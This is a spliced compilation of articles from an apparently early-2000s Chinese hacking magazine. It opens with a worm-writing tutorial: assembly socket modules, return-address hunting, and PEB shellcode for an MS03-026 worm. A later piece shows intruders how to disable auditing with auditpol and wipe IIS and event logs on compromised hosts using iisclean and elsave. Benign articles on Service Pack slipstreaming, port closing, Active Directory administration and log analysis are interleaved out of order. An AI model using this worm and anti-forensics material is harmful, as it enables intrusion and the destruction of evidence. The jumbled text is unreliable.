Creat_main:
pushad
push 0
push SOCK_STREAM ; 大家可以使用引入库 ws2_32.inc 和 Win32.inc
push AF_INET
Call Socket
cmp eax, INVALID_SOCKET
je SocketError ; 返回值表明有错误，就到……
```

```asm
SocketError 处理
jmp Creat_end
SocketError:
Call WSAGetLastError
; 处理错误
popad
mov eax,-1
ret
Creat_end:
popad
ret
CreatSocket_end:
CreatSocket Endp
```

```asm
lea ebx,[edx].sin_addr
mov [ebx].s_addr,eax
push size Sockaddr_in
push edx
push ecx
Call Connect
ret
Data_ConnectWL:
sad SockAddr_in <>
ConnectWL_end=$
```

调用用法如下：

```asm
xor eax,eax
Call CreatSock
cmp eax,-1
jz Error
mov [sock],eax ; 保存返回的 Sock 句柄到指定位置
Sock dd 0 ; Sock 的定义，用以保存得到的 Socket 句柄
```

#### 3）与特定 IP 的指定端口创建连接

在拥有 Socket 句柄之后，就可以利用 Socket 进行网络操作了。除了 UDP 等个别协议不要求创建固定连接之外，其他协议如最常用的 TCP 协议都要求先创建连接。那么该如何创建连接呢？下文给出一个用于创建连接的模块（具体用法在后面的应用中会有所表述）。

```asm
ConnectWL:
; 输入的数据：
; ebx== 标准 IP 字符串的地址
; edx== 端口号
; ecx== Socket 句柄
; 输出数据：
; eax== ConnectWL 的返回值，如果不为 0，则出现错误，可用 WSAGetLastError 来取得详细错误
push edx
Call htons
lea edx,offset sad
mov [edx].sin_port,eax
push ebx
Call inet_addr
mov [edx].sin_family,AF_INET
```

#### 4）收发数据的模块

在创建成功之后，就可以利用 Socket 句柄收发数据了，其具体实现参见下面的模块。

发送数据模块如下：

```asm
SendData:
; 输入数据：
; ecx==Socket 句柄
; edx== 要发送的数据的首地址
; eax== 要发送的数据的字节数
; 输出数据：
; eax==Send 的返回值
push 0
push eax
push edx
push ecx
Call Send
ret
SendData_end=$
```

接收数据模块如下：

```asm
RecvData:
; 输入数据：
; ecx==Socket 句柄
; edx== 要接收的数据的首地址
; eax== 要接收的数据的字节数
; 输出数据：
; eax==Recv 的返回值
push 0
push eax
push edx
push eax
Call Recv
ret
RecvData_end=$
```

实际上，以上就是对两个 API 函数的调用。

#### 5）具体应用

上面已经将后面要用到的全部 Socket API 介绍了，下面给出一个使用这些模块的应用。为了方便，这里不列出全部代码，而只列出 Socket 相关代码部分……

```asm
Exp...Socket_work:
xor eax,eax
Call InitSock
cmp eax,-1
je GetDebug
xor eax,eax
Call CreatSocket
cmp eax,-1
je GetDebug
mov [sock],eax
```

Call RndIP；生成随机 IP 的代码，略去了：

```asm
mov [IP],eax
mov ecx,[sock]
mov ebx,[IP]
mov edx,[Port]
Call ConnectWL
cmp eax,0
je GetDebug
mov ecx,[sock]
mov eax,MSG_Size
mov edx,offset MSG
Call SendData
push 1
Call Sleep
; 睡一会，让 Socket 发送完全
mov ecx,[sock]
mov eax,1000
mov edx,offset MMP
Call RecvData
push offset MMP
push 1000
Call MyDisplay
...
jmp End_pp
GetDebug:
Call WSAGetLastError
Call DebugOutputEx,eax
End_pp:
```

```asm
push offset sock
Call CloseSocket
Call WSACleanUP
push null
call ExitProcess
Socket_work_data:
sock dd 0
port db 50h
ip dd ?
msg db 'Get /ida \http 1.1',0
msg_size=$-offset msg
mmp db 1000 dup (00h)
Socket_work_end=$
```

### 2. 蠕虫编写中的两个关键问题

#### 1）有关返回地址确定的问题

相信熟悉黑客技术的人一定知道，Exploit 送给远程机器的数据使远程机器程序的返回地址被重写，该地址被指向到一个可以执行 Shell 的地方，以便于 Shell 获得执行权。但是返回地址对于一般人来说，是很难很快找到的，那怎么做呢？如果蠕虫编写者比较熟悉 SoftICE 和 IDA Pro，那么基本上可以在 1 个小时内找到较为通用的地址。因为这些地址都是我们熟悉的命令，如一条 “jmp esp” 所在的地址，这些都可以作为溢出用的返回地址。这些地址又在哪里呢？答案是：溢出发生的进程的内存映射中任意一个 “jmp esp” 指令地址都可以作为返回地址（当然不光 “jmp esp”，其他的如 “call ebx” 也是可以的）。手动查找这些地址不是很困难，但重要的是，要写蠕虫就一定要抓紧时间来得到这个地址，缓慢的手动方式必然不行，所以想到了通过程序自动查找来定位该地址的方法。经过查 Intel 的资料，把 “jmp esp” 等可利用指令的 16 位机器码找到，写程序利用暴力搜索的方法查找地址……

> **编者注：** 作者写了一个暴力搜索返回地址的程序，我们将其放在了光盘中，文件名为“VXK.worm”。
>
> rar->“暴力寻找返回地址.txt”，大家可以编译一下使用。

同时利用这里说明一下，SVCHost.exe 在 2K 和 XP 下是没有改变的，和它有关系的溢出应该都可以找到很不错的通用地址……

#### 2）Shell 的编写和重定位 API 函数地址的问题

用汇编写溢出漏洞的蠕虫，可以直接把自己做成 Shell（详见实战篇），但是在做成了之后呢？在远程机器上由于程序代码的位置发生了改变，绝对定位就会出现问题。有的使用相对定位技术——这个技术被病毒广泛使用，这里不做详述了。

> 编者注：如果您想详细地了解，可以查看《黑客防线》第 8 期的 CVC 专栏文章。

利用重定位解决这个问题之后，Shell 看起来似乎完美了，但是远程机器的 API 地址与本地的 API 地址不一定就是完全一样的，所以这里又面临了一个新的问题：API 函数地址重定位的问题。这个问题虽然在以前的 CVC 专栏详细地讲解过其具体的解决方法，但是搜索 Kernel32.dll 基地址的方法使用的代码较多，不利于使用在对代码大小有苛刻要求的 Shell 中，那该怎么办呢？

我们在搜索 MSDN 相关内容同时，可以找到国人关于利用 PEB 得到 Kernel32.dll 基地址的技术文章（用 Google 搜索“PEB+ 地址”就可以看到了），下面从中节选一段取基地址的代码如下：

```asm
mov eax, fs:[0x30] ; PEB
lea eax, [eax+0ch] ; Ldr
lea eax, [eax+1ch] ; Flink
lea ebx, [eax+08h] ; k32Base
```

此时的 EBX 寄存器中就是 Kernel32.dll 的基地址了，然后利用以前 CVC 专栏公布的重定位 API 地址的技术，便可以解决这个问题了。

### 实战篇

这一篇主要是将上面讲到的知识应用到实际中来，针对前段时间 MS03-026 中提到的最大最危险的 RPC DCOM 漏洞，我们编写一个针对 Windows 2003 的蠕虫测试程序。需要声明的是，这个程序基于的所有技术均来自 Flashsky 的溢出分析和 CVC 专栏以前曾提到过的技术和代码。该程序的代码中可能有一些错误的地方。需要在 Tasm 环境下编译，在 Masm 中编译可能会提示错误。

基于 Flashsky 的方法自己写 DCOM RPC 的 Shell 时，一定要注意 Shell 的大小要能被 12 整除，实在不行的话一定要记得用 NOP 补齐！！

> 编者注：作者写的这个程序的确非常有助于读者对蠕虫技术的学习，不过由于版面关系，我们将其放到了光盘之中，文件名为“VXK worm.rar->Asm\溢2.txt”，有兴趣的朋友请作参考。但要说明的是，我们这里提供仅是用于技术交流，希望大家不要将其用于非法目的。

### 尾声

经过本文的训练，一般的溢出漏洞只要拿到分析（当然也可以自己分析），大约五六个小时就会炼制出一只蠕虫（有点夸张了），所以安全漏洞的分析最好有保留地公开。

### 后记

蠕虫最重要的特征就是依赖于具体的漏洞，所以，每当有比较大影响的漏洞公布之后，总会有相应的蠕虫出现。对于广大用户来说，防范蠕虫最好的方法当然就是打好相应的补丁了；应该说，对于绝大多数蠕虫的爆发，我们都是可以预见的。比如在 DCOM RPC 漏洞公布之后，我们一直在等待利用该漏洞的蠕虫的出现；但另外一方面，更多的用户似乎并没有及时打好补丁。所以，冲击波蠕虫爆发之后，大片大片的计算机倒下了，或许这也是在我们的意料之中吧……

## 把 Service Pack 集成到安装程序

随着程序 Bug 不断被发现，各种修正补丁也接踵而来，尤以微软的程序为甚。如此一来，除常规安装程序外，还要打相应的补丁，无疑增加了工作量。本文作者针对这一问题，提出了把 Windows 2000 及 Office XP 补丁集成进安装程序的解决方案，实践证明是完全可行的。有此苦恼的朋友不妨按此方法一试。

### 一、把 Windows 2000 的 SP3 集成进 Windows 的安装程序

首先要求你有 700M 左右的硬盘空间。在这之上，我们在 C 盘建立一个名为 win 的文件夹，所有的文件操作都将在这个文件夹中进行。在这个文件夹中建立一个名为 2k 的文件夹，把原始的 Windows 2000 的安装文件（至少 I386 这个文件夹，如果你想制作得更完整，也可以拷贝全部的文件）拷贝进去。

由于 Windows 的 Service Pack 是累积的，也就是说，只要安装最新的 Service Pack 3，那么 SP1 和 SP2 就不需要了。因此我们只要到微软中国网站去下载 Windows 2000 的 SP3 安装文件就可以了。这里需要的是完整版的 SP3，下载后大小应该是 115M，将其保存在刚才建立的 win 文件夹内，然后直接在运行中输入如下命令：

```bash
c:\win\win2ksp3.exe -s:c:\win\2k
```

程序就会开始自动提取安装文件，并自动整合。这时大家会看见如图 1 所示的界面，这个进度完成后，我们的安装文件就成功整合了。不过需要注意两点：

- 这样处理过的安装文件刻录成光盘后是没有光盘启动功能的，如果要安装，只能从 DOS 下安装。我们在后面会介绍解决的办法。
- 以上操作必须全部在 Windows 2000 下完成，如果在其他 Windows 系统下进行，将会收到出错的提示。

不过，经过这样安装的 Windows 2000 有一个小问题，就是如果你运行 `sfc /scannow` 检查受保护的系统文件，程序将会需要你插入“Windows 2000 Service Pack 3”的 CD。那是因为我们这样制作的 CD 似乎不符合标准，也就是说，你不能检查受保护的系统文件。

下面着手解决光盘启动的问题，其实只需要添加一个包含引导信息的文件就可以了。这个文件的名称是 `w2kboot.bin`，可以在 `http://www.bunnios.com/~charly/bootfiles.zip` 下载。把这个文件打开后解压缩到一个目录中，然后打开刻录软件。以 Nero 为例，打开后新建一个可以启动的 CD-ROM，在 Boot 选项卡下的“Source of boot image data”设置中指定一个“Image File”，并选择刚才解压缩出来的 `w2kboot.bin`。其他的设置不用更改，然后在文件列表中把刚才我们整合好的 Windows 2000 安装文件拖动到光盘中就可以开始刻录了。这样获得的光盘可以引导系统并直接安装带有 SP3 的 Windows 2000。

### 二、把 SP1 和 SP2 集成到 Office XP

以下操作需要你准备一张 Office XP 的安装光盘和 Office XP 的 Service Pack 1、Service Pack 2。这里需要的和一般通过 Office XP 下载到的 Service Pack 是不同的，我们需要的是 Administrative Update 安装包，可以从微软网站下载到。由于 Office XP 的 Service Pack 不是累加的，所以 Service Pack 1 和 Service Pack 2 都需要下载。下载地址是：

- `http://download.microsoft.com/download/OfficeXPProfFP/Patch/2002/W98NT42KMeXP/CN/oxpsp1a.exe`，41.3M
- `http://download.microsoft.com/download/OfficeXPDev/Update/XPSP2/W98NT42KMeXP/CN/OxpSp2a.exe`，53.2M

除此之外，你还需要一台刻录机，以便把最终生成的文件刻成光盘。当然，如果你愿意在硬盘上直接安装，这一步也可以省略。

然后就可以开始我们的整合了。

由于整合过程中会生成很多临时文件，为了整洁起见，我们把它们保存在一起，在硬盘上新建一个文件夹（本文将在 D 盘建立一个 Office 文件夹），并保证该分区有不少于 1G 的剩余空间。

把 Office XP 的安装光盘插入光驱，并同时按下 Shift 禁止自动运行，然后在“开始→运行”中输入 `F:\setup /a`（F 是光驱的盘符），这时会弹出安装向导。安装路径中输入 `d:\office`，然后点击“下一步”，同意最终用户授权协议，程序开始复制文件到 D 盘的 office 文件夹。

现在开始整合 SP1。双击运行下载回来的 `oxpsp1a.exe`，解压后会输出 3 个文件：`ENGLPK1_Admin.msp`、`MAINSP1_Admin.msp` 和 `OWC10SP1_Admin.msp`。随后在运行中输入：

`msiexec /p d:\sp1\mainsp1_admin.msp /a d:\office\proplus.msi shortfilenames=true /qb`

以及：

`msiexec /p d:\sp1\owc10sp1_admin.msp /a d:\office\owc10.msi shortfilenames=true /qb`

```bash
msiexec /p d:\sp2\mainsp2ff.msp /a d:\office\proplus.msi shortfilenames=true /qb
msiexec /p d:\sp2\owc10SP2ff.msp /a d:\office\owc10.msi shortfilenames=true /qb
```

现在，SP1 的整合就已经完成了。对于 SP2，按照上面的方法先把补丁解压到 D 盘 SP2 文件夹，再依次执行相应 `msiexec` 命令，等待后即可完成。

你可能会遇到这样的问题：在整合了 SP1 和 SP2 后不久，微软又发布了 Office XP 的新补丁。由于简体中文版在当时尚未有比 SP2 更新的补丁，这里用一个 Office XP 中简繁转换加载项来说明做法。

这个补丁的作用是为 FrontPage 等程序提供简体和繁体中文转换。可从微软下载 `tcscconv.exe`，下载后在 D 盘新建 `update` 目录保存该文件，然后在运行中输入：

`d:\update\tcscconv.exe /?`

查看参数，后续主要使用 `/t`。

在运行中输入：

`d:\update\tcscconv.exe /t:d:\up /c`

会解压得到 `tcscconv.msi`。再执行：

`msiexec /p d:\up\tcscconv.msi /a d:\office\proplus.msi shortfilenames=true /qb`

即可把该单独补丁整合进安装文件。

刻盘时可能发现总体积达到约 890M，不能直接刻盘。可清理部分非必须文件：如 IE 安装文件目录（约 67M）以及字体目录（约 230M）等。清理后体积可降到约 559M。经验证，安装文件仍可正常使用，安装字体时出现的部分错误可忽略，并且安装过程中可免输入序列号（序列号已在整合 Service Pack 时写入）。

入侵者常常通过扫描目标主机的端口，然后判断其所开的服务，再根据相应的漏洞进入目标主机。这里我们要做的防范措施就是关闭不安全的服务/端口来保证系统的安全。

## 怎样关闭受到入侵的端口

（文/王宇）

学过网络的人都应该知道，网络实际是由 7 层协议组成的，其中的传输层有一个最重要的任务就是提供可靠的端到端连接，其中的“端”自然就是端口啦。

TCP/IP 协议中有许多端口，其中低于 1024 的端口都有确定的含义。那么，在讲到怎样关闭端口之前，先为大家说说怎样查看自己的爱机所开的端口。

### 1．直接查看

如果你是 Windows 9X 系统，你只需找到 `c:\windows\service`（注意是没有后缀名的）文件，将要关闭的端口前加“;”；对于 Windows NT/2000/XP 系统，该文件在 `c:\winnt\system32\drivers\etc` 中。

### 2．端口扫描

所谓端口扫描就是向目标机发送一些数据，看这个端口所回应的数据。所以对于远程主机的扫描，除了一般的扫描器外，最简单的就是用 Windows 自带的 `netstat` 命令并配合参数 `a`。你就会看到有一项 state，就是当前端口的连接状态，常见的连接状态有：

- ESTABLISHED：表示当前的端口已建立连接
- FIN-WAIT：表示该端口正在关闭中
- TIME-WAIT：表示该端口处于等待状态
- CLOSED：表示该端口已处于关闭状态
- LISTENING：表示该端口正在侦听可用端口

此时如果 1024 以上的端口出现不连续的侦听状态，你可一定要注意。例如：BO:31337，NETBUS:12345，冰河:7626 等。要是在 Windows 2000 下，还有一个最迷人的命令，那就是 `for`。看了以下的用法，你一定会为它的方便而惊讶：

```bash
for /l %a in (1,1,254) do start /low /min telnet 202.118.117.%a 3389
```

这条命令会扫出 202.118.117.x 网段内所有开放了 3389 端口的主机。命令执行后会把任务栏打开 254 个小窗口，然后 telnet 连接失败的主机会在几秒钟后自动关闭，剩下的当然就是开放该端口的主机了。

```bash
for /l %a in (1,1,65535) do start /low /min telnet 202.118.117.233 %a
```

这条命令是用来扫描 202.118.117.233 主机所开的所有端口的。当然，端口扫描除了以上方法外，最直接的就是用扫描器，现在的扫描器有很多都是自带攻击型的。

### 3．卸载相应的服务

IP 端口与 IP 服务是相对应的，如果关闭了相应的服务，那么自然该端口也就关闭了。例如：我们大家都知道 21 号端口是对应 FTP 服务的，如果你有 FTP 服务的话，你的 21 端口也是打开的。卸载步骤为：控制面板→添加/删除程序→添加 Windows 组件→信息服务管理→Internet 信息服务(IIS)→详细信息→文件传输协议(FTP)服务，完成后点击“下一步”就行了。

### 4．端口过滤

对于 Windows 2000 和 XP 系统而言，微软公司为它们提供了 TCP/IP 的筛选功能，也就是可以实现指定 IP 端口与本机的连接。具体方法为：网络邻居(右键)→属性→本地连接(右键)→属性→Internet 协议(TCP/IP)→属性→高级→选项→TCP/IP 筛选→属性。当你选择了“只允许”后，你就可以开始添加了（添加完毕后，需要重启方能生效）。

另外，也可以用 `net stop <service name>`，一看英文就明白了，它是用来停止你所不需要的某些服务的，还可以在“管理工具→服务”中停止服务。

关闭端口后虽然保障了我们电脑的安全性，但是也会减少某些方面的功能，所以建议大家在明白自己所需要的服务的情况下关闭端口。

日志对于系统安全的作用是显而易见的，无论是网络管理员还是黑客都非常重视日志。一个有经验的管理员往往能够迅速通过日志了解系统的安全性能，而一个聪明的黑客往往会在入侵成功后迅速清除掉对自己不利的日志。本文专门讨论入侵者删除和修改系统日志的问题，了解攻击者的使用方法可以更进一步完善自己的系统安全。

## 黑客是如何掩盖痕迹的

### 一、关闭审核策略

本文从入侵角度出发考虑“安全”技术，但作为网络管理员，对其有所了解是非常有好处的。

在开始之前，我们先了解一些相关概念。

- 建立审核跟踪记录是安全性的重要内容。监视对象的创建和修改提供了追踪潜在安全性问题的方法，帮助确保用户账户的可用性，并在可能出现安全性破坏事件时提供证据。

对系统执行与安全性相关的审核有 3 个主要步骤。

首先，必须打开要审核的事件类别。用户登录/注销和账户管理就是事件类别的典型例子。选定的事件类别组成了审核策略。第一次安装 Windows 2000 时，没有选中任何类别，也就没有强制的审核策略。“计算机管理”列出了可以审核的事件类别。

其次，必须设置安全日志的大小和行为。

最后，如果你已经选择了“审核目录服务访问”类别或“审核对象访问”类别，则必须确定要监视访问的对象并相应地修改其安全描述符。例如，如果要审核用户为打开特定文件所做的尝试，可以针对特定事件在该文件上直接设置成功或失败属性。

- 通过使用事件查看器和事件日志，可以收集有关硬件、软件、系统问题的信息，并监视 Windows 2000 安全事件。

Windows 2000 以 3 种日志方式记录事件：

- 应用程序日志：应用程序日志包含程序所记录的事件。
- 安全日志：安全日志包括有效和无效的登录尝试，以及与资源使用相关的事件，如创建、打开或删除文件或其他对象。
- 系统日志：系统日志包含 Windows 2000 的系统组件记录的事件。

- 启用 Web 站点的日志记录功能。该功能可记录用户活动的细节并以你选择的格式创建日志。启用日志记录后，请在“活动日志格式”列表中选择格式。

下面让我们来看看一个攻击者如何掩盖这些肆意操作的记录。

第一步是关闭“本地策略”里的“审核策略”。这里给大家介绍一个程序：auditpol。Auditpol.exe 是命令行工具，专门用于配置“审核策略”，功能十分完善（图1）。

“审核策略”里的每个策略和该命令行下的 Category 是一样的。再结合 Option 参数的设置，就可以完全实现与本地设置策略一样的效果。

先查看一下当前的“审核策略”是什么样。图2 是为了能够看出该工具的效果，这里将所有的……

表格（图2）：审计策略列表（策略 / 本地设置 / 有效设置）

表格（图7）：审计策略列表（全部关闭后的状态）

```text
Running ...
(0) Audit Disabled
System = No
Logon = No
Object Access = No
...
```

策略全部都关闭了。如果那台“肉鸡”的系统也是这样的话，就省了过多地使用这个工具了。不过，为了安全还是要检查一下（图3）。

原封不动地还原。有人可能会说：刚才我记不得哪些是开启的，哪些是关闭的，怎么办呢？没关系，加上 `/enable` 参数就可以了（图8）。

```text
... audit options ...
System = Success and Failure
Logon = Success and Failure
Object Access = No
...
```

可是往往系统管理员会或多或少地开启一些（如图4）。系统本地上的设置如图5所示。这样，我们如果在对该系统肆意操作之前，

```text
Running ...
(0) Audit Disabled
System = No
Logon = No
Object Access = No
...
```

表格（图5）：本地审计设置与有效设置对照（含“成功/失败”等）

就得先将这些开启的审核全部关闭。目的不用说大家也该明白。接着操作，利用 `/disable` 参数来关闭全部（图6）。

```text
... audit option changed successfully ...
(0) Audit Disabled
System = Success and Failure
Logon = Success and Failure
...
```

结果如图7所示，看看是不是全部关闭了？接下来攻击者“想怎么样都行了”。当然，做完该做的事情后，还是要原封不动地还原。

看看，是不是和原先所开启的一模一样？对了，这里 `/disable` 只是让所有的策略失去审核能力的同时记录下了它们原来的状态，当用 `/enable` 恢复时，就回到了原来的样子。不信，可以对照一下原先审核策略，看是不是一模一样。

其实在这里大家别误会，这个工具也有它真实的一面。比如说，现在需要对服务器进行审核策略配置，但没法本地操作或获得 GUI 界面，只能在命令行下对系统进行远程控制，同样可以使用该工具。

```text
E:\hack>net use \\192.168.0.77\ipc$ password /u:administrator
命令成功完成。
E:\>auditpol.exe \\192.168.0.77
Running ...
(0) Audit Disabled
System = No
Logon = No
Object Access = No
Privilege Use = No
Process Tracking = No
Policy Change = No
Account Management = No
Directory Service Access = No
Account Logon = No
E:\>auditpol.exe \\192.168.0.77 /enable /system:all
```

在远程修改系统的审核策略时，要先做一个 IPC$ 连接。当然所连接的账号也要有要求，起码要具有管理员权限。

当然，也可以单独对每个策略进行配置。是否还记得格式？

```text
AuditPol \\computer [/enable | /disable] [/help] [/?] [/Category:Option]
```

在这里面需要对 Option 选项进行说明：

- **Success**：Audit success events（审核成功）
- **Failure**：Audit failure events（审核失败）
- **All**：Audit success and failure events（审核成功/失败）
- **None**：Do not audit these events（不作审核，即全部关闭，并不等于 disable）

### 二、清除日志

前面我们只是谈到了关闭审核策略的问题，可是当入侵者还没有关闭策略，或者之前对某“肉鸡”进行踩点、扫描时，就可能留下相关日志记录，这怎么办呢？通常这些还是难不倒入侵者的。

首先要搞清楚有几种日志存在。根据笔者的一点经验，日志大致分为以下几种：

- WEB 日志
- 系统日志
- 安全日志
- 应用程序日志
- 终端服务日志

当然，如果安装了 DNS 等服务，或者其他第三方服务器程序，也都会有相应日志。这里与入侵者对“肉鸡”的肆意操作无关（DNS 对了解内部局域结构可能派上用场，不过这里不多讲），就不讨论了。

- 清除 Web 日志（下载地址：7.patching.net/tools/iisclean.exe）。

现在我手上的工具就是 iisclean.exe。如何使用呢？很简单。

```text
E:\>iisclean.exe
IIS Cleaner v1.1 by novax4c00int21@hotmail.com

Retrieving log path....      OK
Stopping W3SVC service...    OK
Erasing files (C:\WINNT\System32\LogFiles\W3SVC*.*)
Searching W3SVC2...
          ex020130.log
Restarting W3SVC service...  OK
```

看到了吧？直接运行就可以了，什么都不要管。是不是 Too simple 啊？不过同样会让细心的系统管理员发现系统被人进来过。

- 系统日志、安全日志和应用程序日志，也可以用另一个工具进行清除。下面介绍 ELSAVE.EXE（7.patching.net/tools/elsave.exe）（图9）。

具体参数如下：

- `-s`：指定要保存或清除日志的服务器
- `-l`：指定要保存或清除的日志名称
- `-F`：指定要保存的文件名，必须是绝对路径
- `-C`：清除日志
- `-q`：把错误日志写到事件日志中（这功能我试了一下好像没什么效果，大家也可以试试看）

接着还是来看看如何清除安全日志吧。

图10所示是未清除前的安全日志记录。开始动手（图11）。

补充：在执行以上命令时，要先用有特权的账号建立 IPC$ 连接才可以。注释：`-s` 服务器地址，`-l` 日志名称，`-C` 清除日志。

让我们再来看看系统里的日志记录存不存在了（图12）。大家可以看到原先所有记录都不存在，但这时你会发现还有一条依然存在。其实这是因为没法避免刚才清空日志行为所留下的记录。同样，对应用程序和系统日志也要清空。用猜的方法：

```text
E:\ELSAVE.EXE -s \\192.168.0.77 -l "system" -C
E:\ELSAVE.EXE -s \\192.168.0.77 -l "application" -C
```

- 清空终端服务日志，只有在图形界面控制下完成，这是由终端服务开启日志配置的特殊性造成的。我们还是来讨论一下。首先要知道，如果存在终端服务，管理员开启了日志，设置该日志记录的位置会在什么地方。

如图13所示，先打开“终端服务配置”，找到“连接”里的 RDP-tcp，并右击其“属性”。点击“环境”选项卡，看看管理员是否运行了用来做日志记录的程序（图14，网上有很多相关 BAT 文件，大家有兴趣可以再查找一下），这是一个会做日志记录的地方。

接下来就是“权限”选项卡里的“高级”选项了。点击进去看一看（图15）。

进去后如图16所示。在“审核”选项卡里可以确认是否对某些组、某些账号配置审核。不过大家放心，这个审核是记录在事件查看器里的，上面我们已介绍过如何清除。

据我所知，终端服务的日志记录就是在这两个地方配置的。若有遗漏，还请大家多多指教。最后提醒大家注意，如果你是通过 GUI 或终端服务连接对方服务器的话，一定要记住将 Documents and Settings 里对应登录账号的文件夹删除。一般情况下，可以使用远程命令行来删除：

```text
RMDIR [/S] [/Q] [驱动器:]路径
RD    [/S] [/Q] [驱动器:]路径
```

`/S`：除目录本身外，还将删除指定目录下所有子目录和文件，用于删除目录树。  
`/Q`：安静模式，加 `/S` 时删除目录树结构不再要求确认。

如果不删除该账号的配置文件，“系统”属性里的“用户配置文件”一栏里也会留下使用者的账号信息（图17）。

## 活动目录的远程管理

文／朱宏志

我们知道，Windows 2000 的一个重要特点就是活动目录。在局域网内，组域的工作模式在很多企业内部都广泛使用，这种模式能带来更加方便、高效的使用和管理方式，并且在某种程度上提高了安全系数。而活动目录如何管理呢？本文向大家介绍它的远程管理模式。

对于 Windows 2000 活动目录的管理，我们一般都是通过域控制器上管理工具中的 3 个活动目录工具来进行，其中经常用到的是“Active Directory 用户和计算机”管理工具。由于这些工具只位于域控制器上，所以多多少少对平时管理带来一些不便。比如当我们需要添加一个域用户，但又不在域控制器旁边的时候该怎么办？是不是一定要跑到域控制器旁？你也许会说，用 `net user` 命令不就行了吗？确实不错，对于添加用户这样的操作 `net user` 还可以应付，但对于一些更高级的功能它就不行了，而且命令行使用起来也不方便。

那有没有更好的办法呢？当然有。这里给出两种方法，让你远程也能管理活动目录：

- 利用微软的 Web Admin Tool 1.0
- 在客户端安装活动目录管理工具

当然你也可以通过终端服务或其他远程控制软件来进行这些工作，不过这不是远程管理活动目录所特有的，所以这里不讲。

### 第一种方法：用微软公司的 Web Admin Tool 实现对活动目录的远程管理

从名字就可以看出，Web Admin Tool 是通过浏览器进行管理工作的工具，主要用于活动目录远程管理。它可以实现“Active Directory 用户和计算机”管理工具中的大多数功能，而且经过恰当配置，还可以进行更多远程管理工作，比如对 DNS 的管理、对 Exchange 的管理等。这里主要看它的核心功能：对活动目录的远程管理。你可以到  
http://www.microsoft.com/serviceproviders/downloads/webadmin_overview.asp  
下载此工具。下载前需要先填一张微软调查表（Registration form）。

#### （一）安装和设置 Web Admin Tool

- 把 Web Admin Tool 安装在一台域控制器上。安装前，请保证活动目录处于本机模式（Native mode），并且已经安装 IIS 5.0。
- 把下载后的压缩包解压到某个目录中，比如 `d:\webadmin`。
- 在管理工具中打开“Internet 信息服务”，展开并右击“默认 Web 站点”，选择“新建 -> 虚拟目录”，将别名设为 `webadmin`，路径指向步骤 1 中解压目录下的 HTML 目录，其他设置保持不变。
- 右击 `webadmin` 虚拟目录，选择“属性”，切换到“目录安全性”标签，进行后续访问设置。

“访问和验证控制”中，仅选中“基本验证”选项，取消其他验证选项。注意 Web Admin 是通过“基本验证”方式认证用户的。由于“基本验证”会以明文方式发送用户名和口令，所以为了安全起见，应该启用 IIS 的 SSL 功能。关于 IIS 启用 SSL 的详细信息，请参看以前相关文章。

步骤4：在安装了 Web Admin 工具的服务器浏览器地址栏中输入 `http://localhost/webadmin`，点击 Web Admin Setup Wizard 下的“Go setup”链接（图1），在这里完成安装剩余步骤。只要你按前面所述进行设置，那么这里只要一路“Next”和“确定”即可。

在“Name”中填入组织单位名字。由于同时要创建一个新用户，所以请勾选“Create First user”项，然后点击“Create”按钮。

步骤3：在这个窗口中填入要创建的新用户用户名和初始密码，完成后点击“Next”按钮（图3）。

#### （二）使用 Web Admin 远程管理域控制器上的活动目录

上面的安装完成后，就可以在其他任何一台计算机浏览器地址栏中输入类似下面地址进行远程管理：`http://192.168.0.55/webadmin`。在这里可以进行的工作与“Active Directory 用户和计算机”管理工具上做的差不多，比如创建/修改/删除用户、组和组织单位。下面以创建一个名为 sale 的 OU，并同时为它创建第一个新用户 zhz 为例：

- 步骤1：由于是与 OU 有关的工作，所以点击图1中的“Manage Organization”链接。
- 步骤2：在新窗口中点击“New Customer”。

### 第二种方法：在客户端安装活动目录管理工具

虽然只要有浏览器就可以使用 Web Admin Tool 对活动目录进行远程管理，但 Web Admin Tool 的功能毕竟有限。要真正像在域控制器上一样无限制地管理活动目录，还是需要专门的活动目录工具。这些工具其实都包含在 Windows 2000 光盘 `I386` 目录下的 `ADMINPAK.MSI` 程序包中。只要运行这个程序包，就会在你的 Windows 2000 计算机上安装与域控制器上一模一样的管理工具。

在频繁发生的网络攻击事件中，对网站的攻击几乎占了绝大部分。我们对于网站被攻击是否束手无策，让攻击者逍遥得逞吗？是否能找到这个罪魁祸首呢？本文介绍从服务器的日志中分析被入侵的迹象，追查真正的凶手。

## 从服务器日志中追查攻击行踪

文 / 王荣福

现今的网络，安全越来越受到大家的重视。在构建网络安全环境时，在技术手段和管理制度等方面都逐步加强，设置防火墙、安装入侵检测系统等等。但网络安全是个全方位的问题，忽略哪一点都会造成木桶效应，使得整个安全系统形同虚设。本文从分析 Web 服务器的 logging 记录找出漏洞，防范攻击，从而加强 Web 服务器安全。

Web 服务是 Internet 所提供最多、最丰富的服务，各种 Web 服务器自然也是受到攻击最多的。我们采用了很多措施来防止遭受攻击和入侵，其中查看 Web 服务器的记录是最直接、最常用，又比较有效的一种方法。但 logging 记录很庞大，查看 logging 记录是很繁琐的事情，如果抓不住重点，攻击线索就容易被忽略。下面就对最流行的两类 Web 服务器：Apache 和 IIS 做攻击实验，然后在众多的记录中查到攻击的蛛丝马迹，从而采取适当的措施加强防范。

### 1. 默认的 Web 记录

对于 IIS，其默认记录存放在 `c:\winnt\system32\logfiles\w3svc1`，文件名就是当天的日期，记录格式是标准的 W3C 扩展记录格式，可以被各种记录分析工具解析。默认的格式包括时间、访问者 IP 地址、访问的方法（GET or POST…）、请求的资源、HTTP 状态（用数字表示）等。对于其中的 HTTP 状态，我们知道 200–299 表明访问成功；300–399 表明需要客户端反应来满足请求；400–499 和 500–599 表明客户端和服务器出错。

常用的如 404 表示资源没找到，403 表示访问被禁止。

Apache 的默认记录存放在 `/usr/local/apache/logs`，其中最有用的记录文件是 `access_log`，其格式包括客户端 IP、个人标示（一般为空）、用户名（如果需要认证）、访问方式（GET or POST...）、HTTP 状态、传输的字节数等。

全部工具里，比如在这里，我们仅仅需要活动目录管理工具，其他工具用不着，可以使用下面的命令来仅仅安装 3 个活动目录管理工具（请务必注意命令行中的大小写）：

```bash
msiexec /i adminpak.msi ADDLOCAL=FeADTools /qb
```

其中的 FeADTools 就代表活动目录工具，对于这些工具的使用我想也用不着我在这里多说了，它的使用就跟在控制器上的使用一样。只是在这里顺便给出其他管理工具的对应名称（图 4）。

| 管理控制台 | 对应管理项 |
|---|---|
| FeRASConsole | 路由和远程访问 |
| FeDHCPConsole | DHCP |
| FeDNSConsole | DNS |
| FeFSCConsole | 分布式文件系统 |
| FeWINSConsole | WINS |
| FeIISConsole | Internet 信息服务 |
| FeTSMgrConsole | 终端服务管理器 |

